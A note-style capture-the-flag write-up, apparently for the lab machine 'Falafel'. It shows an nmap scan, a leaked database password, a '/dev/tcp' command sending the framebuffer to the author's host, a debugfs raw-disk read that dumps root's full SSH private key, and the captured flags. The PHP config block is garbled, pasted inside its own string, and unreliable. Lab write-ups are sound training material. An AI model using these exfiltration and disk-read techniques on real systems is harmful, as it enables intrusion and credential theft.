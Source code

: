 # Falafel

# keyword 

 md5 for 0e , video privilege,  disk privilege



# information

Nmap 7.70 scan initiated Mon Apr  1 15:01:15 2019 as: nmap -sC -sV -oA nmap 10.10.10.73

Nmap scan report for 10.10.10.73
Host is up (0.30s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 36:c0:0a:26:43:f8:ce:a8:2c:0d:19:21:10:a6:a8:e7 (RSA)
|   256 cb:20:fd:ff:a8:80:f2:a2:4b:2b:bb:e1:76:98:d0:fb (ECDSA)
|_  256 c4:79:2b:b6:a9:b7:17:4c:07:40:f3:e5:7c:1a:e9:dd (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/*.txt
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Falafel Lovers
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

# connect db info

```php
<?php
   define('DB_SERVER', 'localhost:3306');
   define('DB_USERNAME', 'moshe');
   define('DB_PASSWORD', '<?php
   define('DB_SERVER', 'localhost:3306');
   define('DB_USERNAME', 'moshe');
   define('DB_PASSWORD', 'falafelIsReallyTasty');
   define('DB_DATABASE', 'falafel');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
   // Check connection
   if (mysqli_connect_errno())
   {
      echo "Failed to connect to MySQL: " . mysqli_connect_error();
   }
?>
');
   define('DB_DATABASE', 'falafel');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
   // Check connection
   if (mysqli_connect_errno())
   {
      echo "Failed to connect to MySQL: " . mysqli_connect_error();
   }
?>
```

#  vedio privilege

uid=1001(moshe) gid=1001(moshe) groups=1001(moshe),4(adm),8(mail),9(news),22(voice),25(floppy),29(audio),44(video),60(games)

```bash
moshe@falafel:~$ ls -al /dev/fb*
crw-rw---- 1 root video 29, 0 Apr  1 00:40 /dev/fb0
moshe@falafel:~$ id
uid=1001(moshe) gid=1001(moshe) groups=1001(moshe),4(adm),8(mail),9(news),22(voice),25(floppy),29(audio),44(video),60(games)
moshe@falafel:/sys$ find . | grep fb
./bus/acpi/devices/device:fb
./devices/pci0000:00/0000:00:0f.0/graphics/fb0
./devices/pci0000:00/0000:00:0f.0/graphics/fb0/dev
./devices/pci0000:00/0000:00:0f.0/graphics/fb0/pan
./devices/pci0000:00/0000:00:0f.0/graphics/fb0/name
./devices/pci0000:00/0000:00:0f.0/graphics/fb0/mode
./devices/pci0000:00/0000:00:0f.0/graphics/fb0/console
./devices/pci0000:00/0000:00:0f.0/graphics/fb0/blank
./devices/pci0000:00/0000:00:0f.0/graphics/fb0/modes
./devices/pci0000:00/0000:00:0f.0/graphics/fb0/power
./devices/pci0000:00/0000:00:0f.0/graphics/fb0/power/control
./devices/pci0000:00/0000:00:0f.0/graphics/fb0/power/async
./devices/pci0000:00/0000:00:0f.0/graphics/fb0/power/runtime_enabled
./devices/pci0000:00/0000:00:0f.0/graphics/fb0/power/runtime_active_kids
./devices/pci0000:00/0000:00:0f.0/graphics/fb0/power/runtime_active_time
./devices/pci0000:00/0000:00:0f.0/graphics/fb0/power/autosuspend_delay_ms
./devices/pci0000:00/0000:00:0f.0/graphics/fb0/power/runtime_status
./devices/pci0000:00/0000:00:0f.0/graphics/fb0/power/runtime_usage
./devices/pci0000:00/0000:00:0f.0/graphics/fb0/power/runtime_suspended_time
./devices/pci0000:00/0000:00:0f.0/graphics/fb0/state
./devices/pci0000:00/0000:00:0f.0/graphics/fb0/bl_curve
./devices/pci0000:00/0000:00:0f.0/graphics/fb0/bits_per_pixel
./devices/pci0000:00/0000:00:0f.0/graphics/fb0/device
./devices/pci0000:00/0000:00:0f.0/graphics/fb0/cursor
./devices/pci0000:00/0000:00:0f.0/graphics/fb0/subsystem
./devices/pci0000:00/0000:00:0f.0/graphics/fb0/rotate
./devices/pci0000:00/0000:00:0f.0/graphics/fb0/stride
./devices/pci0000:00/0000:00:0f.0/graphics/fb0/uevent
./devices/pci0000:00/0000:00:0f.0/graphics/fb0/virtual_size

```

# fb0   information



moshe@falafel:/sys/devices/pci0000:00/0000:00:0f.0/graphics/fb0$ cat virtual_size
1176,885
moshe@falafel:/sys/devices/pci0000:00/0000:00:0f.0/graphics/fb0$

moshe@falafel:/sys/devices/pci0000:00/0000:00:0f.0/graphics/fb0$ cat /dev/fb0 > /dev/tcp/10.10.14.27/9001  

#  gnu image open raw

moshe@falafel:/sys/devices/pci0000:00/0000:00:0f.0/graphics/fb0$ cat virtual_size
1176,885

file->raw image -> MoshePlzStopHackingMe!

# disk privlege

yossi@falafel:~$ id
uid=1000(yossi) gid=1000(yossi) groups=1000(yossi),4(adm),6(disk),24(cdrom),30(dip),46(plugdev),117(lpadmin),118(sambashare)
yossi@falafel:~$ crontab -l
no crontab for yossi

yossi@falafel:~$ id
uid=1000(yossi) gid=1000(yossi) groups=1000(yossi),4(adm),6(disk),24(cdrom),30(dip),46(plugdev),117(lpadmin),118(sambashare)
yossi@falafel:~$ crontab -l
no crontab for yossi

```bash
yossi@falafel:~$ ls /dev/sd*
/dev/sda  /dev/sda1  /dev/sda2  /dev/sda5
yossi@falafel:~$ ls -al /dev/sda*
brw-rw---- 1 root disk 8, 0 Apr  1 00:40 /dev/sda
brw-rw---- 1 root disk 8, 1 Apr  1 00:40 /dev/sda1
brw-rw---- 1 root disk 8, 2 Apr  1 00:40 /dev/sda2
brw-rw---- 1 root disk 8, 5 Apr  1 00:40 /dev/sda5
yossi@falafel:~$ /sbin/debugfs -h
debugfs 1.42.13 (17-May-2015)
/sbin/debugfs: invalid option -- 'h'
/sbin/debugfs: Usage: debugfs [-b blocksize] [-s superblock] [-f cmd_file] [-R request] [-V] [[-w] [-c] device]
yossi@falafel:~$
yossi@falafel:~$ /sbin/debugfs /dev/sda1
debugfs 1.42.13 (17-May-2015)
debugfs:  cd  /root
debugfs:  ls
debugfs:  cd .ssh
debugfs:  ls
debugfs:  cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAyPdlQuyVr/L4xXiDVK8lTn88k4zVEEfiRVQ1AWxQPOHY7q0h
b+Zd6WPVczObUnC+TaElpDXhf3gjLvjXvn7qGuZekNdB1aoWt5IKT90yz9vUx/gf
v22+b8XdCdzyXpJW0fAmEN+m5DAETxHDzPdNfpswwYpDX0gqLCZIuMC7Z8D8Wpkg
BWQ5RfpdFDWvIexRDfwj/Dx+tiIPGcYtkpQ/UihaDgF0gwj912Zc1N5+0sILX/Qd
UQ+ZywP/qj1FI+ki/kJcYsW/5JZcG20xS0QgNvUBGpr+MGh2urh4angLcqu5b/ZV
dmoHaOx/UOrNywkp486/SQtn30Er7SlM29/8PQIDAQABAoIBAQCGd5qmw/yIZU/1
eWSOpj6VHmee5q2tnhuVffmVgS7S/d8UHH3yDLcrseQhmBdGey+qa7fu/ypqCy2n
gVOCIBNuelQuIAnp+EwI+kuyEnSsRhBC2RANG1ZAHal/rvnxM4OqJ0ChK7TUnBhV
+7IClDqjCx39chEQUQ3+yoMAM91xVqztgWvl85Hh22IQgFnIu/ghav8Iqps/tuZ0
/YE1+vOouJPD894UEUH5+Bj+EvBJ8+pyXUCt7FQiidWQbSlfNLUWNdlBpwabk6Td
OnO+rf/vtYg+RQC+Y7zUpyLONYP+9S6WvJ/lqszXrYKRtlQg+8Pf7yhcOz/n7G08
kta/3DH1AoGBAO0itIeAiaeXTw5dmdza5xIDsx/c3DU+yi+6hDnV1KMTe3zK/yjG
UBLnBo6FpAJr0w0XNALbnm2RToX7OfqpVeQsAsHZTSfmo4fbQMY7nWMvSuXZV3lG
ahkTSKUnpk2/EVRQriFjlXuvBoBh0qLVhZIKqZBaavU6iaplPVz72VvLAoGBANj0
GcJ34ozu/XuhlXNVlm5ZQqHxHkiZrOU9aM7umQkGeM9vNFOwWYl6l9g4qMq7ArMr
5SmT+XoWQtK9dSHVNXr4XWRaH6aow/oazY05W/BgXRMxolVSHdNE23xuX9dlwMPB
f/y3ZeVpbREroPOx9rZpYiE76W1gZ67H6TV0HJcXAoGBAOdgCnd/8lAkcY2ZxIva
xsUr+PWo4O/O8SY6vdNUkWIAm2e7BdX6EZ0v75TWTp3SKR5HuobjVKSht9VAuGSc
HuNAEfykkwTQpFTlmEETX9CsD09PjmsVSmZnC2Wh10FaoYT8J7sKWItSzmwrhoM9
BVPmtWXU4zGdST+KAqKcVYubAoGAHR5GBs/IXFoHM3ywblZiZlUcmFegVOYrSmk/
k+Z6K7fupwip4UGeAtGtZ5vTK8KFzj5p93ag2T37ogVDn1LaZrLG9h0Sem/UPdEz
HW1BZbXJSDY1L3ZiAmUPgFfgDSze/mcOIoEK8AuCU/ejFpIgJsNmJEfCQKfbwp2a
M05uN+kCgYBq8iNfzNHK3qY+iaQNISQ657Qz0sPoMrzQ6gAmTNjNfWpU8tEHqrCP
NZTQDYCA31J/gKIl2BT8+ywQL50avvbxcXZEsy14ExVnaTpPQ9m2INlxz97YLxjZ
FEUbkAlzcvN/S3LJiFbnkQ7uJ0nPj4oPw1XBcmsQoBwPFOcCEvHSrg==
-----END RSA PRIVATE KEY-----
debugfs:

```

root@falafel:~# cat root.txt
23b79200448c62ffd6f8f2091c001fa1
root@falafel:~# cat /home/moshe/user.txt
c866575ed5999e1a878b1494fcb1f9d3